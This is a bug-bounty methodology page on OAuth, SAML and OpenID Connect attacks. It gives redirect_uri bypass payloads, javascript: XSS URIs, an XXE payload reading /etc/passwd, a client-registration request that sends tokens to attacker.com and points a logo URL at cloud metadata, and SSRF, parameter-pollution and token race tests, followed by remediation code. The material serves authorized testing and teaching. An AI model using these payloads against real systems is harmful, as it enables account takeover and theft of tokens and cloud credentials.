

*Navigation: [🏠 Home](../../Hunting%20Approach%20Guide.md) | [🔙 Back to Checklist](../../Element%20Testing%20Checklist.md) | [Next: Prototype Pollution](Prototype%20Pollution.md) >>*
---

# OAuth & SAML Vulnerabilities : Master Playbook

> **Goal:** Stealing authorization tokens or hijacking the Single Sign-On (SSO) flow to achieve full Account Takeover (ATO) or data theft.
> **Triggers:** Presence of "Log in with [Social]" buttons, `redirect_uri` parameters in the URL, or XML-based SAML responses in the proxy history.
> **Context:** OAuth is like a **"Valet Key"**. You don't give a valet your house keys; you give them a specific key that only starts the car. In the digital world, instead of giving a 3rd-party app your password, you give them a **Token** (Valet Key).
> **Hacker Mindset:** "I don't want the user's password. I want to trick the server into sending the Valet Key to MY house instead of the user's."

---

## 0. Exploit Selection Search Tree
*Use this logical search tree to decide which OAuth/SAML technique to prioritize:*



1.  **Can I redirect the secret code or token to my own server?**
    *   **Yes** → Use **[[#4.1 Redirect URI Bypasses (Heritage List)]]**.
2.  **Is the "state" parameter missing or using a predictable value?**
    *   **Yes** → Use **[[#5.1 Missing/Predictable State Parameter]]**.
3.  **Can I link my own OAuth account to the victim's email?**
    *   **Yes** → Use **[[#6.1 Pre-Account Takeover (Pre-ATO)]]**.
4.  **Is the application mobile or a Single-Page App (SPA) missing PKCE?**
    *   **Yes** → Use **[[#7. PKCE & Security Auditing]]**.
5.  **Is there an XML-based SAML response I can manipulate?**
    *   **Yes** → Use **[[#9. SAML - Security Assertion Markup Language]]**.
6.  **Can I register a new client or see a `/.well-known/openid-configuration`?**
    *   **Yes** → Use **[[#10. OpenID Connect (OIDC) & Enterprise Hijacking]]**.
7.  **Is the response mode using POST or are there multiple parameters?**
    *   **Yes** → Use **[[#10.2 Response Mode & Parameter Mutilation]]**.

---

## 1. Methodology & UX Impact Table

| Attack Vector | Beginner "Why" | Detection Indicator | Success Confirmation | Bounty Impact |
| :--- | :--- | :--- | :--- | :--- |
| **Redirect Hijack** | Crossing out the return address. | Loose `redirect_uri` validation. | Token/Code sent to your server. | **High/Critical** |
| **OAuth CSRF** | Forcing a "Secret Handshake". | Missing or static `state`. | Attacker account linked to victim. | **High** |
| **Pre-ATO** | Squatting in an empty house. | Email linkage without verification. | Access via manual password. | **High/Critical** |
| **SAML XSW** | Taping a stamp onto a fake contract.| SAML Raider shows wrapping. | Identity changed to Admin. | **Critical** |
| **SAML Signature** | "Don't look at the seal." | Server accepts unsigned SAML. | Access after deleting signature. | **Critical** |
| **OIDC SSRF** | "Go look at this logo." | `request_uri` or `logo_uri` fetch. | Server hits Metadata IP. | **High** |

## 2. Methodology: The OAuth Hunter's Checkpoint

### 2.1 The Hunter's Pre-Flight Checklist
Before you start running bypasses, ask yourself these "Session State" questions:
*   [ ] **Is it Implicit Flow?** Look for `#access_token` in the URL.
*   [ ] **Is there a `state` parameter?** If not, OAuth CSRF is high priority.
*   [ ] **Can I change the `redirect_uri` to a different domain?**
*   [ ] **Does the app allow "Login with..." (Google/Facebook)?**
*   [ ] **Is the protocol SAML?** Check for `SAMLResponse` in your proxy.

---

## 3. OAuth Fundamentals & Grant Types

### 3.1 OAuth Roles Glossary
*   **Resource Owner**: The **User** (You).
*   **Resource Server**: The site holding the data (e.g., **Twitter**).
*   **Client Application**: The site requesting access (e.g., **Twitterdeck.com**).
*   **Authorization Server**: The part of Twitter that issues the keys.
*   **client_id**: The public ID of the app (**Twitterdeck ID**). Non-secret identifier.
*   **client_secret**: The secret password TweetDeck uses to talk to Twitter. **Must be kept secret.**
*   **response_type**: Target token type (e.g. `code`, `token`).
*   **code**: The temporary card (`?code=`) used to fetch the real key.
*   **access_token**: The actual "Valet Key" used for API calls.
*   **refresh_token**: Allows getting a new key without bothering the user.

### 3.2 Understanding Grant Types
> **Beginner Note**: Think of "Grant Types" as **Registration Forms**. Depending on which form you fill out, you get a different kind of key.

There are 4 main ways OAuth works:

1.  **Authorization Code Flow (Most Secure)**: 
    *   **How it looks**: A code is sent to the URL $\rightarrow$ Server exchanges it for a token.
    *   **Why it's safe**: The actual valet key (token) never touches the user's browser; it stays on the server.
2.  **Implicit Flow (Dangerous)**: 
    *   **How it looks**: The token is right there in the URL fragment (`#access_token=...`).
    *   **Why it's risky**: Anyone who can see the browser history or run a malicious script on the page can steal the key.
3.  **Client Credentials**: Used for machine-to-machine communication (no user involved).
4.  **Resource Owner Password Credentials (ROPC)**: User sends their actual password to the app. **Avoid this.**

---

## 4. Redirect URI Attacks

> **Beginner Note**: Think of the `redirect_uri` like a **Return Address** on an envelope. The Authorization Server is sending a letter with a check (the token) inside. If you can cross out the return address and write your own, you get the check.

### 4.1 Redirect URI Bypasses (Heritage List)
> **Beginner Note**: The server has a "Verified Address List." Our job is to find a way to write an address that *looks* verified but actually sends the mail to our house.

**Burp Suite Test Scenario:**
1.  **Intercept** the initial request to `/authorize`.
2.  **Look for** the `redirect_uri` parameter.
3.  **Modify and Test** the following 🔴 **High Priority Bypasses:**

| Test Type | Payload Example | Logic |
| :--- | :--- | :--- |
| **No Validation** | `?redirect_uri=https://bing.com` | Server accepts ANY URI. |
| **Subdomain** | `?redirect_uri=https://sub.target.com` | Subdomain takeover or Open Redirect on sub. |
| **Localhost** | `https://localhost.evil.com` | Spoofing localhost via subdomain. |
| **Local Port Hijack** | `http://localhost:8080` | Exploiting dev-mode whitelists. |
| **XSS via Redirect** | `javascript:alert(1)` | Using URI schemes to execute code. |
| **Homograph** | `https://targėt.com` | IDN Homograph attack (dot under 'e'). |
| **Chained Open Redirect** | `https://target.com/logout?url=https://bing.com` | Chaining an existing site flaw. |

**Localhost & XSS Hijacking Deep-Dive:**
> **Beginner Note**: Developers often whitelist `localhost` for testing. If that whitelist is loose, or if the server allows `javascript:` URIs, you can execute code instead of just redirecting.

1.  **The Local Spoof**: Use `redirect_uri=https://localhost.attacker.com`. If the server checks for the *string* "localhost", this works.
2.  **The XSS Trap**: Try `redirect_uri=javascript:alert(document.domain)`. If the browser follows this after the OAuth "Accept" click, you run code in the context of the OAuth provider.
3.  **The Listener**: If `http://localhost:9000` is allowed, an attacker can catch the token by running a local script on the victim's machine.

**Weak Regex & Fuzzing Payloads:**
> **Beginner Note**: Use these if the site uses a "Pattern Matcher" (Regex) instead of an exact list.

```php
?redirect_uri=https://target.com.bing.com       <-- Domain spoof
?redirect_uri=https://target.com%252ebing.com   <-- Double encoding (%)
?redirect_uri=https://target.com//bing.com/      <-- Double slash
?redirect_uri=https://target.com%09bing.com      <-- Tab character (bypass)
?redirect_uri=https://eviltarget.com             <-- Keyword whitelisting bypass
```

**Advanced Fuzzing Logic:**
*   **Encodings**: `?redirect_uri=https://target.com§FUZZ§` (Use common separators [URL encoded chars](https://pastebin.com/raw/b7HsBvZ7)).
*   **Whitelisting**: `?redirect_uri=https://§FUZZ§.com` (Use a list of [raft-large-words.txt](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/raft-large-words.txt)).

### 4.2 Referer Header Leakage
> **Beginner Note**: If the page you land on has external ads or images, the browser tells that external site "I came from `target.com/callback?code=SECRET`" via the `Referer` header.

**How to test:**
1.  Intercept the OAuth request and change the `Referer` header to `https://bing.com`.
    ```http
    GET /oauth/token/google HTTP/1.1
    Host: target.com
    Referer: https://bing.com
    ```
2.  **HTML/XSS Injection**: If you find an HTML injection or XSS on the callback page, include external content like ``. The browser will automatically leak the `?code=` in the Referer header to your evil server.
3.  Check if any 3rd party scripts on the callback page receive the `code` or `token`.

---

## 5. Flow Manipulation & CSRF

### 5.1 Missing/Predictable State Parameter
> **Beginner Note**: The `state` parameter is a **"Secret Handshake"**. If it's missing or says "123", anyone can forge it.

**Timeline of an OAuth CSRF Attack:**
1.  **Attacker Setup**: Start OAuth on your own account. Stop the request just before the `/callback` (where the `?code=` is visible).
2.  **The Trap**: Send that full URL (including your code) to the **LoggedIn Victim**.
3.  **The Click**: Victim clicks. The app links the **Attacker's identity** to the **Victim's account**.
4.  **Success**: Attacker logs in via social login and is inside the victim's account.

### 5.2 Authorization Code & Token Flaws
*   **Re-using the code**: Try to use `?code=123` twice. It should fail.
*   **Predictability & Brute-Force**: Can you guess the next `code`? Check for weak PRNGs. Are there **Rate Limits** on the token exchange endpoint? If not, you could brute-force the code or token.
*   **Cross-App Validity**: Is the code for App A valid for App B? (Check if `client_id` is validated).
*   **Token Re-use After Logout**: Log out $\rightarrow$ Try making an API call with the old token.

---

## 6. Account Takeover (ATO) Scenarios

### 6.1 Pre-Account Takeover (Pre-ATO)
> **Beginner Note**: This is like **Squatting**. You are creating an account on behalf of someone else using their email, before they even arrive.

**Timeline of a Pre-ATO Attack:**
1.  **Preparation**: Attacker creates a manual account on `target.com` using `victim@gmail.com` and a password they choose.
2.  **The Wait**: The attacker does nothing. The account sits there "empty."
3.  **The Trigger**: The actual victim comes to `target.com` for the first time and clicks **"Sign in with Google"** (using `victim@gmail.com`).
4.  **The Flaw (Hybrid Linkage)**: Instead of checking if the account was verified or already exists in manual form, the site says "Oh, a Google user with this email! Let me link this Google ID to the existing manual account."
5.  **The Takeover**: The account is now "merged." Both the victim (via Google) and the attacker (via the manual password) have access.
    *   🔴 **Persistence Hack**: If the app lacks an **"Un-link"** option, the attacker has a permanent backdoor even if the victim resets their password.

**Scenario: Facebook Phone-Number Bypass**
1.  Register on Facebook using a phone number.
2.  In Facebook settings, add the **victim's email** (but do NOT verify it).
3.  Use Facebook OAuth on the target site. 
    *   🔴 **Vulnerability**: Many sites trust the email provided by Facebook even if it's unverified.
    *   [Reference: salt.security blog](https://salt.security/blog/oh-auth-abusing-oauth-to-take-over-millions-of-accounts)

### 6.2 Dynamic Parameter Injection
> **Beginner Note**: This is like **Over-writing** a field on a form while the clerk isn't looking.

*   **Email Hijack**: Look for an `email` parameter in the final step of the login.
    ```http
    POST /auth/callback HTTP/1.1
    Host: target.com
    ...
    code=OAUTH_CODE&state=CSRF_TOKEN&email=attacker@gmail.com
    ```
    *   **Test**: Change `email=attacker@gmail.com` to `email=victim@target.com`.
*   **Domain Restriction Bypass (`hd` parameter)**: 
    *   If a site only allows `@company.com` emails, it might use the `hd` (Hosted Domain) parameter.
    *   **Test**: Replace `hd=company.com` with `hd=gmail.com` in the request to if you can log in with a personal account.
*   **Scope Escalation**: 
    *   In the initial `/authorize` request, look for `scope=read`.
    *   **Test**: Change it to `scope=read%20write%20admin`. Check if the "Consent Screen" shows the new permissions.
    *   **The Scope Removal Trick**: Try to **remove** `email` from the scope list and then **manually add** a victim's email parameter (e.g., `&email=admin@target.com`) to the request. Some backends will trust the explicitly provided email if the scope-retrieved email is null.

### 6.3 Lack of Origin Check
> **Beginner Note**: If the site doesn't check where a request is coming from, an attacker can put the site inside an "Invisible Frame" on their own website to steal information.

*   **Risk**: If `X-Frame-Options` is missing, you can use a "PostMessage" attack to steal tokens.
*   **Payload**: [Lack_Of_Origin_Check.html (Payload)](https://github.com/tuhin1729/Bug-Bounty-Methodology/blob/main/payloads/Lack_Of_Origin_Check.html)

### 6.4 Secret Leakage (Reconnaissance)
*   **GitHub Dorking**: Searching for `client_secret` or hardcoded OAuth tokens in the company's public GitHub repositories or in Burp Suite search history. The `client_secret` should never be exposed to the client-side browser or public source code.

---

## 7. PKCE & Security Auditing
*   **Missing PKCE**: In mobile/SPA, look for `code_challenge` and `code_verifier`. If missing, authorization code injection is possible.
*   **Browser History Leak**: Check if the token or code is stored in the browser history (happens in Implicit flows).

---

## 8. Evil App & Race Conditions
*   **Access Revocation**: If a user cancels the app access, ensure the `code` and `token` are immediately revoked.
*   **Token Race Conditions**: OAuth servers often use a "One-Time-Use" logic for codes and refresh tokens. If the server isn't atomic, you can "double-spend" them via parallel processing.
    *   **Target A: Code → Token**: Send 20 parallel requests to the token exchange endpoint using the same `code`. If successful, you'll receive multiple valid `access_tokens`.
    *   **Target B: Refresh → Token**: Send parallel requests to exchange a `refresh_token` for a new `access_token`.
    *   **Impact**: Enables persistent access or resource multiplication within the provider context.

---

## 9. SAML - Security Assertion Markup Language

> **Beginner Note**: SAML is like a **Notarized Letter**. 
> - **Service Provider (SP)**: The app you want to use (e.g., Salesforce).
> - **Identity Provider (IdP)**: The "Notary" that proves who you are (e.g., Okta).
> - The Letter (SAML Response) says: "I am Admin, and I have permission to delete users."
> - The Notary's Stamp (Signature) proves the letter hasn't been tampered with.

### 9.1 SAML Authentication Flow
1.  The user tries to access the Service Provider (SP).
2.  The SP redirects the user to the Identity Provider (IdP).
3.  The user logs into the IdP.
4.  The IdP generates a **SAML Response** (the Notarized Letter) and sends it back to the SP via the user's browser.
5.  The SP validates the "Stamp" and logs the user in.

### 9.2 Top 5 SAML Attack Vectors

#### 1. Signature Removal (The Easiest Bypass)
*   **The Logic**: Some servers are lazy. They check the signature *if it exists*, but if you remove the signature entirely, they might just trust the text anyway.
*   **Test**: Intercept the SAML response in Burp and delete the `<ds:Signature>` block. Check if you are still logged in.

#### 2. Signature Wrapping (XSW)
*   **The Logic**: Tricking the server into validating the signature of a "Real" part of the XML while actually reading a "Fake" part for the user data. It's like cutting the stamp off a real contract and taping it onto a fake one.
*   **Technical Implementation**: Use **SAML Raider** (Burp Extension). 
    *   Click "Apply XSW" (Try all 8 patterns).
    *   Change the `<Subject>` or `<Attribute>` to `Admin` in the cloned assertion.

#### 3. XML Comment Injection
*   **The Logic**: If the XML parser sees a comment like `<!-- message -->`, it might treat `victim@target.com<!-- comment -->.evil.com` as just `victim@target.com` while the backend sees the full attacker-controlled string.
*   **Test**: Change `<NameID>victim@target.com</NameID>` to `<NameID>victim@target.com<!-- comment -->.evil.com</NameID>`.

#### 4. XML External Entity (XXE)
*   **The Logic**: SAML is XML-based. If the parser is misconfigured to allow external entities, you can read files from the server.
*   **Test**: Inject a basic XXE payload into the SAML Response:
    ```xml
    <!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
    ...
    <NameID>&xxe;</NameID>
    ```

#### 5. Replay Attack
*   **The Logic**: If the SAML Response doesn't have a unique ID or timestamp check, you can use the same "Valid Letter" multiple times to log in.
*   **Test**: Capture a valid SAML response and try to send it again (replay it) after logging out.

### 9.3 Professional Tooling: SAML Raider
> **Beginner Note**: This is the "Magic Wand" for SAML. It adds a new tab to Burp Suite and does the hard work for you.

1.  **Intercept** the `POST /SAML/Consume` request.
2.  Open the **SAML Raider** tab.
3.  **Edit** the XML (e.g., change `Role=User` to `Role=Admin`).
4.  Use the **"XSW Attack"** dropdown to apply automated wrapping techniques.
5.  Click **Forward** and observe the response.

---

## 10. OpenID Connect (OIDC) & Enterprise Hijacking

> **Beginner Note**: OIDC is a layer of "Identity" on top of OAuth. If OAuth is the valey key, OIDC is the **Driver's License**. It doesn't just let you start the car; it tells you exactly **who** the driver is.

### 10.1 Dynamic Client Registration (DCR) Poisoning
*   **The Logic**: Some enterprise providers allow any developer to register their own "OAuth Client" via an API.
*   **Target**: Look for `/.well-known/openid-configuration` and find the `registration_endpoint`.
*   **The Attack**: Send a POST request to register a client with malicious metadata:
    ```json
    POST /register HTTP/1.1
    Content-Type: application/json

    {
      "redirect_uris": ["https://attacker.com/callback"],
      "logo_uri": "http://169.254.169.254/latest/meta-data/iam/security-credentials/",
      "client_name": "<script>alert('XSS')</script>"
    }
    ```
*   **Impact**:
    *   **SSRF**: The server fetches the `logo_uri` to cache it, potentially leaking cloud metadata.
    *   **Blind XSS**: When an admin views the list of registered clients, your script executes in their context.

### 10.2 Response Mode & Parameter Mutilation
*   **Response Mode Hijack**: Change `response_mode=fragment` to `response_mode=form_post`.
    *   **Why?**: Some WAFs or security proxies only log the URL. If the token is sent in a POST body, it becomes "invisible" to simple URL loggers.
*   **OAuth Parameter Pollution (HPP)**:
    *   **Payload**: `?client_id=VICTIM&client_id=ATTACKER&redirect_uri=https://attacker.com`
    *   **The Flaw**: The front-end validates the first `client_id` (Victim), but the back-end uses the second one (Attacker) to process the redirect.

### 10.3 OIDC SSRF via `request_uri`
*   **The Logic**: OIDC allows passing authorized requests by reference using a URL.
*   **Payload**: `GET /authorize?request_uri=http://169.254.169.254/latest/meta-data/`
*   **Impact**: The Authorization Server makes a server-side request to your URI. Full SSRF.

---

## 11. Real-World Bounty Blueprints (Case Studies)

### 11.1 The "Sign-in with Apple" Zero-Day (ATO)
*   **The Flaw**: Apple's server didn't verify the `aud` (audience) or the signature of the JWT in certain flows.
*   **The Hack**: Attacker generated a JWT with a victim's email and sent it to the target site. The site trusted Apple, but Apple hadn't actually verified the email for that specific request.
*   **Result**: $100,000 Bounty.

### 11.2 GitLab's Predictable State ATO
*   **The Flaw**: GitLab used a predictable format for the `state` parameter when linking accounts.
*   **The Hack**: Attackers could forge a valid state for any user and force-link the victim's GitLab account to the attacker's social login.
*   **Result**: Account Takeover.

### 11.3 Slack's SAML Signature Bypass
*   **The Flaw**: Slack whitelisted certain IdPs but didn't strictly validate the certificate chain for all of them.
*   **The Hack**: Attacker pointed Slack to a custom "Notary" (IdP) they controlled and signed their own "Admin" assertions.

---

## 12. Toolbox

---

## 13. Secure Remediation & Defense (Masterclass)

> **Beginner Note**: Defense is about **"Layered Security"**. 
> - If one layer (like a password) fails, the next layer (like a Token check) should stop the attacker.
> - If the user logs out, the app should "Shred the Key" (Revoke the token) so it can never be used again.

### 11.1 The "Gold Standard" of OAuth Defense

#### 1. Strict Redirect URI Validation
*   **The Flaw**: Using Regex or "Contains" checks (e.g., `target.com.evil.com` bypasses).
*   **The Fix**: Use **Exact String Matching** only.
```javascript
// GOOD (Node.js Example)
const ALLOWED_REDIRECTS = [
    'https://target.com/callback',
    'https://m.target.com/auth'
];

function validateRedirect(uri) {
    if (!ALLOWED_REDIRECTS.includes(uri)) {
        throw new Error("UNAUTHORIZED REDIRECT ATTEMPT");
    }
}
```

#### 2. Bulletproof State Parameter
*   **The Flaw**: Missing `state` or using predictable values (e.g., `123`).
*   **The Fix**: Generate a cryptographically secure, random, one-time-use string and verify it on the callback.
```python
# GOOD (Python Example)
import secrets

# Step 1: Generate state before sending to provider
session['oauth_state'] = secrets.token_urlsafe(32)

# Step 2: Verify state on callback
if request.args.get('state') != session.pop('oauth_state'):
    abort(403, "CSRF ATTACK DETECTED")
```

#### 3. Mandatory PKCE (Proof Key for Code Exchange)
*   **The Logic**: Even if an attacker steals the `authorization_code` from the URL, they can't "cash it in" without the original `code_verifier`. 
*   **Requirement**: Enforce PKCE for **ALL** clients (Web, Mobile, SPA), even if they use a client secret.

#### 4. Token Life-Cycle Management
*   **Instant Revocation**: When a user logs out, delete the `access_token` and `refresh_token` from the database immediately.
*   **Short Lifespans**: Set `access_token` to expire in minutes, and use `refresh_token` rotation (issue a new refresh token every time it's used).

### 11.2 SAML Secure Configuration

*   **Signature Enforcement**: The SP must **require** a signature and validate it against a trusted IdP certificate.
*   **No XSW allowed**: Use XML libraries that are resistant to signature wrapping (e.g., libraries that validate the entire assertion, not just parts of it).
*   **XXE Protection**: Disable Data Type Definitions (DTD) and external entity loading in the XML parser.
```java
// Java XXE Protection
DocumentBuilderFactory dbf = DocumentBuilderFactory.newInstance();
dbf.setFeature("http://apache.org/xml/features/disallow-doctype-decl", true);
```

### 11.3 Persistence & Anti-Backdoor Measures
🔴 **Critical Fix:** Applications **MUST** provide a "Security" or "Connected Apps" dashboard where users can see every linked account (Google, Facebook, etc.) and hit an **"Un-link / Disconnect"** button.
*   **Impact**: If an attacker links their account via CSRF, the victim can see it and break the connection, closing the backdoor.

---

## 14. Resources
*   [HackTricks: OAuth Exploitation](https://book.hacktricks.xyz/pentesting-web/oauth-exploitation)
*   [OWASP OAuth Security Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Abusing_OAuth_2.0.html)
*   [CSRF Methodology (tuhin1729)](https://github.com/tuhin1729/Bug-Bounty-Methodology/blob/main/CSRF.md)
*   [HackerScroll - OAuth Bugs Mindmap](https://github.com/hackerscrolls/SecurityTips/blob/master/MindMaps/OAuth_bugs.png)
*   [The Wonderful World of OAuth (Bug Bounty Edition)](https://medium.com/a-bugz-life/the-wondeful-world-of-oauth-bug-bounty-edition-af3073b354c1)
*   [Pentester.land Write Ups](https://pentester.land/list-of-bug-bounty-writeups.html)
*   [Pre-Access to Victim's Account via Facebook Signup (Akshansh Jaiswal)](https://akshanshjaiswal.medium.com/pre-access-to-victims-account-via-facebook-signup-60219e9e381d)

---
---
*Navigation: [🏠 Home](../../Hunting%20Approach%20Guide.md) | [🔙 Back to Checklist](../../Element%20Testing%20Checklist.md) | [Next: Prototype Pollution](Prototype%20Pollution.md) >>*
